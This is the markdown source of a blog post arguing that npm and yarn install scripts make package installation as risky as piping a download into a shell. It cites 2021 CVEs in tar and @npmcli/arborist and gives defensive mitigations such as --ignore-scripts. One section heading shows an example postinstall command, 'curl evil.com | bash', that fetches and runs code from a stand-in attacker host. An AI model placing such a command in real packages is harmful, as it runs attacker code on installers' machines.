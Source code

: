 ```yaml
---
layout: post
title: npm install is curl | bash
date: 2021-09-08T17:44:24.153Z
---
```

Today, GitHub published [a write-up on a number of CVEs](https://github.blog/2021-09-08-github-security-update-vulnerabilities-tar-npmcli-arborist/)[^1] in the npm packages `tar` and `@npmcli/arborist`. In their own words, 

> The npm CLI aims to enforce certain security boundaries on package installation. One of these boundaries is that a package’s contents will only be written to the appropriate folder within the `node_modules` directory hierarchy. Several of the `tar` and `@npmcli/arborist` vulnerabilities will cross that security boundary and may result in unexpected arbitrary file overwrites and subsequent code execution when installing untrusted packages.

This sounds pretty scary: "arbitrary file overwrites and subsequent code execution" is the kind of phrase that you don't want to see in a CVE description. The problem is that by default, npm allows this to happen anyway.

# postinstall: "curl evil.com | bash"

npm (and yarn) will execute arbitrary code when you install a package via [install scripts](https://docs.npmjs.com/cli/v7/using-npm/scripts#npm-install). A valid use-case is to build native code on installation, or do some other environment-specific setup, though these scripts have also been used to [show ads](https://www.zdnet.com/article/npm-bans-terminal-ads/) and, of course, as an [attack](https://blog.sonatype.com/bladabindi-njrat-rat-in-jdb.js-npm-malware) [vector](https://snyk.io/blog/npm-security-malicious-code-in-oss-npm-packages/).

All it takes to get pwned is to install a single malicious package. The risk is mitigated by npm’s moderation of the registry — they’re quick to remove malware once discovered. This works pretty well, though I worry about the day someone uses this to [publish a self-replicating worm](https://blog.npmjs.org/post/141702881055/package-install-scripts-vulnerability).

This attack vector isn’t unique to npm. Other package managers like pip and RubyGems allow for the same thing. As developers, installing packages from these registries doesn’t make us shudder in the same as as when we use `curl | bash`, though it probably should[^2].

## Mitigations

When installing an untrusted package, run `npm install` or `yarn add` with the `--ignore-scripts` flag. If, like me, you tend to forget this, you can set npm/yarn to never run scripts with `{npm,yarn} config set ignore-scripts true`.

I also recommend inspecting the source code of a package before you install it. I like to use [xray.computer](https://xray.computer/source) for this, because I made it.

And, of course, update your npm CLI to fix the CVEs that let packages bypass this setting.

[^1]: Specifically, CVE-2021-32803, CVE-2021-32804, CVE-2021-37701, CVE-2021-37712, CVE-2021-37713, CVE-2021-39134, and CVE-2021-39135.

[^2]: You do get the added security feature of integrity checking when installing via a package manager as opposed to `curl | bash`. This prevents e.g. MITM attacks, but don’t forget that packages in open-source registries are mostly trash, with the occasional piece of malware or genuinely useful code floating around.